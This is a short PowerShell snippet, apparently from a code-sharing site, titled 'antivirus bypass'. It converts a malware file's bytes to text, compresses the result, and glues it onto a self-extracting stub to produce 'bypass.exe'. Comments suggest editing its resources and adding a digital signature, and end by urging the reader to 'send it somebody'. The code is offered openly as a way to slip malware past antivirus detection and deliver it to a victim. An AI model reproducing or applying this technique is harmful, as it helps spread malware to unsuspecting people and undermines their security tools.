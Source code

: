 ```yaml
---
pid:            4951
poster:         greg zakharov
title:          antivirus bypass
date:           2014-03-02 15:52:24
format:         posh
parent:         0
parent:         0

---
```


# antivirus bypass

### [download](4951.ps1)



```posh
[String]::Join(' ', [IO.File]::ReadAllBytes(#malware)) | Out-File -enc ASCII raw
&7za a -mx9 raw.zip raw
&cmd copy /b raw.zip + ZipSFX + ReverseActions bypass.exe
#optional:
#1) edit bypass.exe with resource editor
#2) add digital signature
#at last do not forget send it somebody
```
